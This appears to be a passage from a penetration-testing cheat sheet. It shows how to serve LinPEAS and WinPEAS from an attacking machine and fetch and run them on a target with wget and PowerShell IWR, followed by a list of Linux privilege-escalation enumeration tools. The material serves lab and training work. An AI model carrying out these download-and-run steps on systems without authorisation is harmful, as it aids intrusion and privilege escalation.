 - ### Linpeas run from Attacking Machine to Target Machine
First Install Linpeas.sh File in [Install PEASS](https://github.com/carlospolop/PEASS-ng/releases/)
After that, open port in Attacking Machine so the Target Machine can Download an Run This file.
```
python3 -m http.server 9999   
```
Install File from Attacking Machine to the Target Machine
###### Example :
wget http://[IP Local]:9999/linpeas.sh   
```
wget http://10.10.10.11:9999/linpeas.sh   
```
From The Target Machine give file execute permission and run the file
```
chmod +x linpeas.sh   
```
```
./linpeas.sh   
```
### 𝚰𝚰. Winpeas
- ### Winpeasx64 Run Locally Powershell
First install Winpeasx64.exe [Install PEASS](https://github.com/carlospolop/PEASS-ng/releases/)
After that, open port in Attacking Machine so the Target Machine can Download an Run This file.
```
python3 -m http.server 9999   
```
Install File from Attacking Machine to the Target Machine
###### Example :
IWR http://[IP Local]:9999/winPEASx64.exe -OutFile winPEASx64.exe
```
IWR http://10.10.10.11:9999/winPEASx64.exe -OutFile winPEASx64.exe
```
Run the file
```
.\winPEASx64.exe
```
------------------------------------------------------------------------------------------------------------------------------------------------------

# Priviledge Escalation
## Enumerating The Target
Several tools can help you save time during the enumeration process. These tools should only be used to save time knowing they may miss some privilege escalation vectors. Below is a list of popular Linux enumeration tools with links to their respective Github repositories.

The target system’s environment will influence the tool you will be able to use. For example, you will not be able to run a tool written in Python if it is not installed on the target system. This is why it would be better to be familiar with a few rather than having a single go-to tool.

* [LinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
* [LinEnum](https://github.com/rebootuser/LinEnum)
* [LES (Linux Exploit Suggester)](https://github.com/mzet-/linux-exploit-suggester)
* [Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
* [Linux Priv Checker](https://github.com/linted/linuxprivchecker)
